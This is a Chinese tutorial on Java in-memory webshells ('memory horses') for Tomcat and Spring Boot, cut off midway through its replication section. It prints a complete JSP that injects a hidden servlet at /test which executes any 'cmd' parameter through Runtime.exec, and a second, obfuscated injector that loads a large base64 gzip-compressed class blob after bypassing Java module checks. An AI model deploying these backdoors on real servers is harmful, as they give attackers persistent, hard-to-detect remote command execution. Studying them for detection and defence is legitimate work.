



# java内存马

最近有点摆烂了，还是发篇文章吧。

在遥远的上一次尝试使用codeql去对fastjson做自动化审计，但由于fastjson中使用了asm字节码，因此并没找到一个比较好的方式，于是搁置，写一写java内存马


## 基本概念

Java 内存马是一种特殊的恶意代码，它不依赖磁盘文件，而是直接注入到 Java 进程的内存中运行，通过劫持程序正常执行流程来实现攻击目的。

常见的类型有：

- Servlet内存马：动态注册恶意Servlet，触发方式为请求路径符合配置的Url-Pattern
- Filter内存马：动态注册恶意filter，触发方式为请求路径符合配置的Url-Pattern
- Listener内存马：动态注册恶意Listener，触发方式为触发特定的事件
- Value内存马：tomcat的value类似filter，但会比filter更先拦截，只要请求到达tomcat容器，就会触发
- 基于agent和字节码的内存马：通过静态加载和动态 Attach的方式附加agent，然后在agent中使用字节码操作类库动态注册组件或是hook关键函数如（dofilter）插入恶意代码并执行


## 复现

本轮复现内容为不同类型内存马的复现。

### 环境

jdk17、spring boot 3.3 、Tomcat JSP（确保解析jsp）

Tomcat JSP依赖（tomcat-embed-jasper-10.1.24）：

```
<dependency>
	<groupId>org.apache.tomcat.embed</groupId>
	<artifactId>tomcat-embed-jasper</artifactId>
    <scope>provided</scope>
</dependency>
```

确保thymleaf和jsp共存：

```
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.core.annotation.Order;
import org.springframework.web.servlet.ViewResolver;
import org.springframework.web.servlet.view.InternalResourceViewResolver;
import org.thymeleaf.spring6.view.ThymeleafViewResolver;

@Configuration
public class MvcConfig {

    @Bean
    @Order(1)
    public ViewResolver jspViewResolver() {
        InternalResourceViewResolver resolver = new InternalResourceViewResolver();
        resolver.setPrefix("/WEB-INF/views/");  // JSP文件路径
        resolver.setSuffix(".jsp");                 // JSP文件后缀
        resolver.setViewNames("jsp/*");             // 仅解析以"jsp/"开头的视图名
        return resolver;
    }

    @Bean
    @Order(2)
    public ThymeleafViewResolver thymeleafViewResolver(
            org.thymeleaf.spring6.SpringTemplateEngine templateEngine) {
        ThymeleafViewResolver resolver = new ThymeleafViewResolver();
        resolver.setTemplateEngine(templateEngine);
        resolver.setCharacterEncoding("UTF-8");
        resolver.setViewNames(new String[]{"*"}); // 处理HTML视图
        return resolver;
    }
}
```

jsp路径：`src/main/webapp/WEB-INF/views/jsp`

controller，确保返回正确的视图：

```
package com.example.demo.Memshell;

import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import javax.script.ScriptException;


@Controller
public class ServletMemShell {
    @GetMapping(value = "/memshell1")
    public String loadServletMemShell(Model model) throws ScriptException {
        return "jsp/memshell_servlet";
    }

    @GetMapping(value = "/memshell2")
    public String loadListenerMemShell(Model model) throws ScriptException {
        return "jsp/memshell_listener";
    }

    @GetMapping(value = "/memshell3")
    public String loadFilterMemShell(Model model) throws ScriptException {
        return "jsp/memshell_filter";
    }

    @GetMapping(value = "/memshell4")
    public String loadValueMemShell(Model model) throws ScriptException {
        return "jsp/memshell_value";
    }

    @GetMapping(value = "/index")
    public String index(Model model) throws ScriptException {
        return "jsp/index";
    }


}

```

由于spring boot默认不用jsp，因此在运行时应该使用spring boot run命令，否则将404，该命令可以在maven的插件中找到：



<hr>


MemShellParty提供了许多的打包配置，为了便于复现，我选择使用jsp进行打包从而生成内存马，由于为jdk17，得到的内存马都将使用jakarta相关包，并且每种内存马的使用都会分别用两种方式阐述


### （1）Servlet内存马

方式一：

```
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.*" %>
<%@ page import="jakarta.servlet.ServletContext" %>
<%@ page import="jakarta.servlet.http.HttpServlet" %>
<%@ page import="jakarta.servlet.http.HttpServletRequest" %>
<%@ page import="jakarta.servlet.http.HttpServletResponse" %>

<%
        // 定义恶意Servlet类
        class EvilServlet extends HttpServlet {
                @Override
                public void doGet(HttpServletRequest request, HttpServletResponse response)
                        throws IOException {
                        String cmd = request.getParameter("cmd");
                        if (cmd != null) {
                                try {
                                        Process process = Runtime.getRuntime().exec(cmd);
                                        BufferedReader br = new BufferedReader(new InputStreamReader(process.getInputStream()));
                                        StringBuilder sb = new StringBuilder();
                                        String line;
                                        while ((line = br.readLine()) != null) {
                                                sb.append(line).append("\n");
                                        }
                                        response.getWriter().write(sb.toString());
                                } catch (Exception e) {
                                        response.getWriter().write(e.toString());
                                }
                        }
                }

                @Override
                public void doPost(HttpServletRequest request, HttpServletResponse response)
                        throws IOException {
                        doGet(request, response);
                }
        }

        // 注入流程
        final String servletName = "evilServlet";
        final String urlPattern = "/test";

        // 1. 获取 StandardContext
        ServletContext servletContext = request.getServletContext();
        Field appContextField = servletContext.getClass().getDeclaredField("context");
        appContextField.setAccessible(true);
        ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
        Field standardContextField = applicationContext.getClass().getDeclaredField("context");
        standardContextField.setAccessible(true);
        StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

        // 2. 检查 Servlet 是否已存在,防止重复注入
        if (standardContext.findChild(servletName) == null) {
                // 3. 创建 Wrapper
                Wrapper wrapper = standardContext.createWrapper();
                wrapper.setName(servletName);
                wrapper.setServletClass(EvilServlet.class.getName());
                wrapper.setServlet(new EvilServlet());
                wrapper.setLoadOnStartup(1);

                // 4. 添加 Servlet 配置
                standardContext.addChild(wrapper);
                standardContext.addServletMappingDecoded(urlPattern, servletName);

                out.println("Servlet 注入成功!");
                out.println("访问路径: " + urlPattern);
                out.println("支持参数: cmd");
        } else {
                out.println("Servlet 已存在!");
        }
%>

```


方式二：

```
<%
        Object unsafe = null;
        Object rawModule = null;
        long offset = 48;
        java.lang.reflect.Method getAndSetObjectM = null;
        try {
                Class<?> unsafeClass = Class.forName("sun.misc.Unsafe");
                java.lang.reflect.Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
                unsafeField.setAccessible(true);
                unsafe = unsafeField.get(null);
                rawModule = Class.class.getMethod("getModule").invoke(page.getClass(), (Object[]) null);
                Object module = Class.class.getMethod("getModule").invoke(Object.class, (Object[]) null);
                java.lang.reflect.Method objectFieldOffsetM = unsafe.getClass().getMethod("objectFieldOffset", java.lang.reflect.Field.class);
                offset = (Long) objectFieldOffsetM.invoke(unsafe, Class.class.getDeclaredField("module"));
                getAndSetObjectM = unsafe.getClass().getMethod("getAndSetObject", Object.class, long.class, Object.class);
                getAndSetObjectM.invoke(unsafe, page.getClass(), offset, module);
        } catch (Throwable ignored) {
        }
        String base64Str = "yv66vgAAAD0B9woAAgADBwAEDAAFAAYBABBqYXZhL2xhbmcvT2JqZWN0AQAGPGluaXQ+AQADKClWCAAIAQAPc3VuLm1pc2MuVW5zYWZlCgAKAAsHAAwMAA0ADgEAD2phdmEvbGFuZy9DbGFzcwEAB2Zvck5hbWUBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7CAAQAQAJdGhlVW5zYWZlCgAKABIMABMAFAEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsKABYAFwcAGAwAGQAaAQAXamF2YS9sYW5nL3JlZmxlY3QvRmllbGQBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgoAFgAcDAAdAB4BAANnZXQBACYoTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwgAIAEACWdldE1vZHVsZQoACgAiDAAjACQBAAlnZXRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7BwAmAQATW0xqYXZhL2xhbmcvT2JqZWN0OwoAKAApBwAqDAArACwBABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QBAAZpbnZva2UBADkoTGphdmEvbGFuZy9PYmplY3Q7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsKAAIALgwALwAwAQAIZ2V0Q2xhc3MBABMoKUxqYXZhL2xhbmcvQ2xhc3M7CAAyAQARb2JqZWN0RmllbGRPZmZzZXQIADQBAAZtb2R1bGUHADYBAA5qYXZhL2xhbmcvTG9uZwgAOAEAD2dldEFuZFNldE9iamVjdAkANQA6DAA7ADwBAARUWVBFAQARTGphdmEvbGFuZy9DbGFzczsHAD4BACZjb20vZXhhbXBsZS9kZW1vL01lbXNoZWxsL0VuY29kaW5nVXRpbAcAQAEAE2phdmEvbGFuZy9FeGNlcHRpb24KAD0AQgwAQwBEAQAKZ2V0Q29udGV4dAEAEigpTGphdmEvdXRpbC9MaXN0OwsARgBHBwBIDABJAEoBAA5qYXZhL3V0aWwvTGlzdAEACGl0ZXJhdG9yAQAWKClMamF2YS91dGlsL0l0ZXJhdG9yOwsATABNBwBODABPAFABABJqYXZhL3V0aWwvSXRlcmF0b3IBAAdoYXNOZXh0AQADKClaCwBMAFIMAFMAVAEABG5leHQBABQoKUxqYXZhL2xhbmcvT2JqZWN0OwoAPQBWDABXAB4BAAhnZXRTaGVsbAoAPQBZDABaAFsBAAZpbmplY3QBACcoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9PYmplY3Q7KVYKAD8AXQwAXgAGAQAPcHJpbnRTdGFja1RyYWNlCABgAQAlY29tLmV4YW1wbGUuZGVtby5NZW1zaGVsbC5BdXRoU2VydmxldAgAYgEFtEg0c0lBQUFBQUFBQS80MVZYVmNiUlJoK1pyUEpoR1FoZ1FwdCtxR2h0T1NMc05JQ3JhU3RiWkMyVVFJSUdFWFV1bXhHc20yU2pac041ZDk0MlZ0N0U2M0g0NlVYL2hKL2dsZldkelloaEVKclRzN1ptWG5uZVovbi9aaVovUFh2YjM4QXVJdEtDQXA4SEtvR1B3SU04YWZHTThOeERiMHBuSU9xY1BXSzZ6YjB4L1RaNmhnWUFuZXN1dVhlWS9BbFU2VVFnaGppQ0drSVEyTzRidG8xWFJ3YXRVWlY2R1ZScy9XaXFEVXJvbHJWSDdUY3lqRkgyZDZ3bXpRcEpWZi9UM0ZUL05nU1RUYzNBTERac090TmtVdVZnaGloK014YU9Zd29Sam5HTkp6RGV3eUpBY1VZdEgzaGJoaU9VUk91Y0JpbVpad0hobDQxNnZ2Nmx1dFk5ZjFjNnJSSmxtTkN3M21wRlR4aWtNYVlob3U0eERCQ3hrSzkwWExKUVJnMWh0VGJpUzFiNzRQbXdyaUM5emsrMEJESEpFTnkwSEl3UkVoMHZlWDJxU2FTcVZQbDdMcjFBeW1mS1Z6anVLNWhHZ21HYzJmRXhhRFNVR2J3SjNmenFVSUlLYVE1TWhwbWtHV1lHa0NGWEo4N2xrdUJjcUlvRkZJbER2MUl6S3ZMZHNXeG54dDdWUkhDTE9ZMDNKQkhOZEtnWWhHRllUN2JkZ3lUOXVheHdMR280Ulp1TTR3ZXUyKzI2cTVWSS80UUZhSzNHRS8yTjdCcnprbVdKUTA1M0tIRXhLRXdaYkhlM2ZzTnh6WkZzMG11OS9BeHgzM1o2Z2NuQXVnaUdNNG56KzR0dzFCREhwVTFRMFkyZGxxUGdsbTJ5N0tYcTFaZHJMVnFlOExabGhXUmFOczBxaVhEc2VTNmExVGRpa1Y2aWRXQkxpVFIrOHYySTNrejFRUERtYU5qT2ZDMTdMamNZRWdQZmtHcEV5dUhwbWk0RmkwNU5zNTRkN291UFJqSFp2LzVXKzl0TUVTTHdxM1k1ZDV0YlhaQ21xY1d2NlhZY251QlhxdUI3a0FIdnNpZzdPWTc4MXNNck5DWjN1NkpuRHlvWGErYkRNUGVDUzBhRGE4ekhBWUYvR1o3T1haT2RuMTk3Nmt3M1J5SE9IRVArcElPYmRrdHh4UVBMZG50YUY4dlp5VWNrL1RtS1BUQ0V4QjVMTlBNVDNONjR1bjdDYTEwR3BtMHBuOEJlMGtUQlN2MERYakdNQjdTVitzQThBaVBhVlJSSUl2UGN5N1E2S09ScHpNemJmQmo5NUNuR1NHYXFFY1I3OEM2RkhMMktUN3phRGxXVVNUMG1pZXFZQjJmWTR2bVF3cEJRSnRTTVh5a3lLWm9GU1JiTVowWkczNkZpSUkyeHRleWYySStuVzNqd3BJNjh3cVhHWmI4bzNIOEhsd0t4TlJZb0kyck80dGMrUW5SbUQ4VzhJM3pOcEl2WHYvOUFxRWxOYWEyOGVGTGltU1lxck5DajRyUGkzK1dKRUgvRk1PWXdDaTk0aGZvRjBjTUNWekdBajIvZVZ3bFhKenltYVFRcjNrNWZvTWhRcVd4alM4b3lEZ2hTdmlTeXBiQUpYeUZIY3B1anJpK3hxNVhCei9odnlVY3BkS3JTckZYbFdLM0tzTzRqKytvYXo0OEllczAxTmRFeHptQ0hGR09LeHpmYzB4eHBEajJnSDl3TWM4eEczaFhMUlg1bDBSZjJiMUZrcEp0VWpJL3Y5SDNoSmZRUkdlM0Y1NWtXYVo5U2VsbkhxVWkvOHk2aCtFSnJXUStFVmI4RlRjemJYelV4dDIxN0RIM2lIY0lNclNhb2NTeW5rYTY0OUxUaUhRMVpPcXJNTDFSOFVycTg5SlNhYS9jSHdIREQ1N0EvbjlFcmZGa3lnZ0FBQT09CABkAQAFL3Rlc3QHAGYBABNqYXZhL3V0aWwvQXJyYXlMaXN0CgBlAAMKAGkAagcAawwAbABtAQAQamF2YS9sYW5nL1RocmVhZAEAEWdldEFsbFN0YWNrVHJhY2VzAQARKClMamF2YS91dGlsL01hcDsLAG8AcAcAcQwAcgBzAQANamF2YS91dGlsL01hcAEABmtleVNldAEAESgpTGphdmEvdXRpbC9TZXQ7CwB1AEcHAHYBAA1qYXZhL3V0aWwvU2V0CgBpAHgMAHkAegEAB2dldE5hbWUBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwgAfAEAHENvbnRhaW5lckJhY2tncm91bmRQcm9jZXNzb3IKAH4AfwcAgAwAgQCCAQAQamF2YS9sYW5nL1N0cmluZwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaCACEAQAGdGFyZ2V0CgA9AIYMAIcAiAEADWdldEZpZWxkVmFsdWUBADgoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvT2JqZWN0OwgAigEABnRoaXMkMAgAjAEACGNoaWxkcmVuCwBvAI4MAI8AkAEABnZhbHVlcwEAGCgpTGphdmEvdXRpbC9Db2xsZWN0aW9uOwsAkgBHBwCTAQAUamF2YS91dGlsL0NvbGxlY3Rpb24KAGUAlQwAlgCXAQAGYWRkQWxsAQAZKExqYXZhL3V0aWwvQ29sbGVjdGlvbjspWgoAaQCZDACaAJsBABVnZXRDb250ZXh0Q2xhc3NMb2FkZXIBABkoKUxqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7CgAKAJ0MAJ4AegEACHRvU3RyaW5nCACgAQAZUGFyYWxsZWxXZWJhcHBDbGFzc0xvYWRlcggAogEAH1RvbWNhdEVtYmVkZGVkV2ViYXBwQ2xhc3NMb2FkZXIIAKQBAAlyZXNvdXJjZXMIAKYBAAdjb250ZXh0CgBlAKgMAKkAqgEAA2FkZAEAFShMamF2YS9sYW5nL09iamVjdDspWggArAEADmdldENsYXNzTG9hZGVyBwCuAQASW0xqYXZhL2xhbmcvQ2xhc3M7CgA9ALAMALEAsgEADGludm9rZU1ldGhvZAEAXShMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzcztbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwcAtAEAFWphdmEvbGFuZy9DbGFzc0xvYWRlcggAtgEACWdldExvYWRlcgoAPQC4DAC5ALoBABRnZXRXZWJBcHBDbGFzc0xvYWRlcgEAKyhMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9DbGFzc0xvYWRlcjsKAD0AvAwAvQB6AQAMZ2V0Q2xhc3NOYW1lCgCzAL8MAMAADgEACWxvYWRDbGFzcwoACgDCDADDAFQBAAtuZXdJbnN0YW5jZQoAPQDFDADGAHoBAA9nZXRCYXNlNjRTdHJpbmcKAD0AyAwAyQDKAQAMZGVjb2RlQmFzZTY0AQAWKExqYXZhL2xhbmcvU3RyaW5nOylbQgoAPQDMDADNAM4BAA5nemlwRGVjb21wcmVzcwEABihbQilbQggA0AEAC2RlZmluZUNsYXNzBwDSAQACW0IJANQAOgcA1QEAEWphdmEvbGFuZy9JbnRlZ2VyCgAKANcMANgAJAEAEWdldERlY2xhcmVkTWV0aG9kCgAoABcKANQA2wwA3ADdAQAHdmFsdWVPZgEAFihJKUxqYXZhL2xhbmcvSW50ZWdlcjsKAD0A3wwA4ACqAQAKaXNJbmplY3RlZAkA4gDjBwDkDADlAOYBABBqYXZhL2xhbmcvU3lzdGVtAQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07CADoAQAYc2VydmxldCBhbHJlYWR5IGluamVjdGVkCgDqAOsHAOwMAO0A7gEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWCgAKAPAMAKwAmwgA8gEAHW9yZy5hcGFjaGUuY2F0YWxpbmEuQ29udGFpbmVyCAD0AQANY3JlYXRlV3JhcHBlcggA9gEAB3NldE5hbWUIAPgBABBzZXRMb2FkT25TdGFydHVwCAD6AQAIaW5zdGFuY2UKAD0A/AwA/QD+AQANc2V0RmllbGRWYWx1ZQEAOShMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZztMamF2YS9sYW5nL09iamVjdDspVggBAAEAD3NldFNlcnZsZXRDbGFzcwgBAgEACGFkZENoaWxkCAEEAQARYWRkU2VydmxldE1hcHBpbmcKAD0BBgwBBwB6AQANZ2V0VXJsUGF0dGVybggBCQEAGGFkZFNlcnZsZXRNYXBwaW5nRGVjb2RlZAkBCwA6BwEMAQARamF2YS9sYW5nL0Jvb2xlYW4KAQsBDgwA3AEPAQAWKFopTGphdmEvbGFuZy9Cb29sZWFuOwoAPQERDAESAFsBAA9zdXBwb3J0NTZJbmplY3QIARQBABZzZXJ2bGV0IGluamVjdCBzdWNjZXNzCAEWAQAPc2VydmxldE1hcHBpbmdzCgACARgMARkAqgEABmVxdWFscwgBGwEAI29yZy5hcGFjaGUuY2F0YWxpbmEudXRpbC5TZXJ2ZXJJbmZvCAEdAQAPZ2V0U2VydmVyTnVtYmVyCAEfAQABNQoAfgEhDAEiASMBAApzdGFydHNXaXRoAQAVKExqYXZhL2xhbmcvU3RyaW5nOylaCAElAQABNggBJwEABnBhcmVudAgBKQEAB3NlcnZpY2UIASsBAApjb25uZWN0b3JzCgEtAS4HAS8MATABMQEAF2phdmEvbGFuZy9yZWZsZWN0L0FycmF5AQAJZ2V0TGVuZ3RoAQAVKExqYXZhL2xhbmcvT2JqZWN0OylJCgEtATMMAB0BNAEAJyhMamF2YS9sYW5nL09iamVjdDtJKUxqYXZhL2xhbmcvT2JqZWN0OwgBNgEAGHByb3RvY29sSGFuZGxlckNsYXNzTmFtZQgBOAEABEh0dHAIAToBAAZtYXBwZXIIATwBAAVob3N0cwgBPgEAC2NvbnRleHRMaXN0CAFAAQAIY29udGV4dHMIAUIBAAZvYmplY3QIAUQBAClvcmcuYXBhY2hlLnRvbWNhdC51dGlsLmh0dHAubWFwcGVyLk1hcHBlcggBRgEAMW9yZy5hcGFjaGUudG9tY2F0LnV0aWwuaHR0cC5tYXBwZXIuTWFwcGVyJFdyYXBwZXIKAAoBSAwBSQFKAQAXZ2V0RGVjbGFyZWRDb25zdHJ1Y3RvcnMBACIoKVtMamF2YS9sYW5nL3JlZmxlY3QvQ29uc3RydWN0b3I7CgFMABcHAU0BAB1qYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcgoBTAFPDADDAVABACcoW0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsIAVIBAAtqc3BXaWxkQ2FyZAgBVAEABG5hbWUIAVYBAA1leGFjdFdyYXBwZXJzCgEtAVgMAMMBWQEAJihMamF2YS9sYW5nL0NsYXNzO0kpTGphdmEvbGFuZy9PYmplY3Q7CAFbAQA0b3JnLmFwYWNoZS50b21jYXQudXRpbC5odHRwLm1hcHBlci5NYXBwZXIkTWFwRWxlbWVudAgBXQEACWluc2VydE1hcAgBXwEAEGphdmEudXRpbC5CYXNlNjQIAWEBAApnZXREZWNvZGVyCAFjAQAGZGVjb2RlCAFlAQAWc3VuLm1pc2MuQkFTRTY0RGVjb2RlcggBZwEADGRlY29kZUJ1ZmZlcgcBaQEAHWphdmEvaW8vQnl0ZUFycmF5T3V0cHV0U3RyZWFtCgFoAAMHAWwBAB1qYXZhL3V0aWwvemlwL0daSVBJbnB1dFN0cmVhbQcBbgEAHGphdmEvaW8vQnl0ZUFycmF5SW5wdXRTdHJlYW0KAW0BcAwABQFxAQAFKFtCKVYKAWsBcwwABQF0AQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWCgFrAXYMAXcBeAEABHJlYWQBAAUoW0IpSQoBaAF6DAF7AXwBAAV3cml0ZQEAByhbQklJKVYKAWgBfgwBfwGAAQALdG9CeXRlQXJyYXkBAAQoKVtCCgFrAYIMAYMABgEABWNsb3NlCgFoAYIKAD0BhgwBhwGIAQAIZ2V0RmllbGQBAD8oTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsKABYAeBIAAAGLDAGMAY0BABdtYWtlQ29uY2F0V2l0aENvbnN0YW50cwEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7BwGPAQAeamF2YS9sYW5nL05vU3VjaEZpZWxkRXhjZXB0aW9uCgAKAZEMAZIAMAEADWdldFN1cGVyY2xhc3MSAAEBiwoBjgADCgAWAZYMAZcAWwEAA3NldAcBmQEAH2phdmEvbGFuZy9Ob1N1Y2hNZXRob2RFeGNlcHRpb24SAAIBiwoBmAGcDAAFAO4HAZ4BABpqYXZhL2xhbmcvUnVudGltZUV4Y2VwdGlvbhIAAwGLCgGdAaEMAAUBogEAKihMamF2YS9sYW5nL1N0cmluZztMamF2YS9sYW5nL1Rocm93YWJsZTspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR2YXIxAQAEdmFyMgEAGUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBAAR2YXIzAQASTGphdmEvbGFuZy9PYmplY3Q7AQAEdmFyNAEABHZhcjUBABpMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEABHZhcjYBABBMamF2YS9sYW5nL0xvbmc7AQAEdmFyNwEABXZhcjEzAQAFdmFyMTIBAAR2YXI5AQAVTGphdmEvbGFuZy9FeGNlcHRpb247AQAEdGhpcwEAKExjb20vZXhhbXBsZS9kZW1vL01lbXNoZWxsL0VuY29kaW5nVXRpbDsBAA1TdGFja01hcFRhYmxlAQAEdmFyOAEAD0xqYXZhL3V0aWwvTWFwOwEAEkxqYXZhL2xhbmcvVGhyZWFkOwEAFUxqYXZhL3V0aWwvQXJyYXlMaXN0OwEACkV4Y2VwdGlvbnMBAAlTaWduYXR1cmUBACYoKUxqYXZhL3V0aWwvTGlzdDxMamF2YS9sYW5nL09iamVjdDs+OwEAEE1ldGhvZFBhcmFtZXRlcnMBABdMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwEABXZhcjE1AQAFdmFyMTYBAAV2YXIxNwEAH0xqYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcjsBAAV2YXIxOAEABXZhcjE5AQAFdmFyMjABAAFJAQAFdmFyMjEBAAV2YXIyMgEABXZhcjIzAQAFdmFyMTQBAAV2YXIxMQEABXZhcjEwAQASTGphdmEvbGFuZy9TdHJpbmc7AQAEdmFyMAEAH0xqYXZhL2lvL0J5dGVBcnJheU91dHB1dFN0cmVhbTsBAB9MamF2YS91dGlsL3ppcC9HWklQSW5wdXRTdHJlYW07BwHUAQATamF2YS9sYW5nL1Rocm93YWJsZQcB1gEAE2phdmEvaW8vSU9FeGNlcHRpb24BAAFlAQAgTGphdmEvbGFuZy9Ob1N1Y2hGaWVsZEV4Y2VwdGlvbjsBAAVjbGF6egEABWZpZWxkAQAWTG9jYWxWYXJpYWJsZVR5cGVUYWJsZQEAFExqYXZhL2xhbmcvQ2xhc3M8Kj47AQAhTGphdmEvbGFuZy9Ob1N1Y2hNZXRob2RFeGNlcHRpb247AQAVW0xqYXZhL2xhbmcvQ2xhc3M8Kj47AQBgKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzPCo+O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7AQAKU291cmNlRmlsZQEAEUVuY29kaW5nVXRpbC5qYXZhAQAQQm9vdHN0cmFwTWV0aG9kcw8GAeQKAeUB5gcB5wwBjAHoAQAkamF2YS9sYW5nL2ludm9rZS9TdHJpbmdDb25jYXRGYWN0b3J5AQCYKExqYXZhL2xhbmcvaW52b2tlL01ldGhvZEhhbmRsZXMkTG9va3VwO0xqYXZhL2xhbmcvU3RyaW5nO0xqYXZhL2xhbmcvaW52b2tlL01ldGhvZFR5cGU7TGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL2ludm9rZS9DYWxsU2l0ZTsIAeoBAAhmaWVsZDogAQgB7AEAEE5vIHN1Y2ggZmllbGQ6IAEIAe4BABNNZXRob2Qgbm90IGZvdW5kOiABCAHwAQAYRXJyb3IgaW52b2tpbmcgbWV0aG9kOiABAQAMSW5uZXJDbGFzc2VzBwHzAQAlamF2YS9sYW5nL2ludm9rZS9NZXRob2RIYW5kbGVzJExvb2t1cAcB9QEAHmphdmEvbGFuZy9pbnZva2UvTWV0